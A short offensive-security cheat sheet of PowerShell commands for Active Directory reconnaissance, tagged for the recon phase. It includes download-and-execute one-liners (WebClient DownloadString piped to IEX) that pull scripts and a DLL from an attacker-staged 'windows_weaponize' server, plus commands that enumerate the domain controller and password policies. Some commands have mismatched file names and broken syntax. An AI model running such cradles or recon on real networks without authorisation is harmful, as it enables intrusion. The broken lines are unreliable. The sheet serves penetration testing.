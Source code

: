 # powershell
% windows, Active Directory, powershell

#plateform/windows #target/local #cat/RECON/AD #tag/powershell 


## AD - Install the AD Module
```
Get-WindowsCapability -Name RSAT*ActiveDirectory* -Online | Add-WindowsCapability -Online;gci -Path 'C:\Windows' -Recurse -Filter 'Microsoft.ActiveDirectory.Management.dll' -EA SilentlyContinue | ? {$_.FullName -like '*GAC_64*' -or $_.FullName -like '*amd64*'} | select -Expand FullName
```

## AD - download and load AD Module (PS1)
https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1
```
(new-object system.net.webclient).downloadstring('http://<local_ip>:<port|80>/windows/windows_weaponize/ps/PrivescCheck.ps1') | IEX; Import-ActiveDirectory
```

## AD - download and load AD Module (dll)
```
(New-Object System.Net.WebClient).DownloadFile('http://<local_ip>:<port|80>/windows/windows_weaponize/dll/Microsoft.ActiveDirectory.Management.dll', '<windows_writable_path>\Microsoft.ActiveDirectory.Management.dll)' | IEX; Import-Module <path>\Microsoft.ActiveDirectory.Management.dll; Get-Command -Module Microsoft.ActiveDirectory.Management
```

## AD - get current DC
```
$env:LOGONSERVER
```

## AD - get password policy (user)
```
Get-ADUserResultantPasswordPolicy -Identity <user>
```

## AD - get password policy (default)
```
Get-ADDefaultDomainPasswordPolicy
```

